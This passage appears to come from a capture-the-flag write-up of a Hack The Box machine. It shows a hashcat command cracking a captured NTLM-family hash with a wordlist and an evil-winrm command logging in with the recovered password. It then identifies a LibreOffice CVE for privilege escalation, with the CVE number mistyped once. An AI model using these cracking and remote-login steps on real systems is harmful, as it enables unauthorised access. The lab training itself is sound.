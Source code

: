 ### NTLM Crack

Using hashcat, we can easily crack NTLM hash:

`hashcat -m 5600 maya.hash ~/Downloads/rockyou.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/mailing-crack.png)

### Evil-Winrm

Now through evil-winrm, we have shell as **maya**:

`evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-15.png)


## Privesc: maya to administrator
### CVE-2023-2255

Enumerating the file system, we can see that LibreOffice 7.4 is installed on this server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-18.png)

From some research, it seems that LibreOffice 7.4 is vulnerable to [CVE-2023-2055](https://github.com/elweth-sec/CVE-2023-2255)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-19.png)
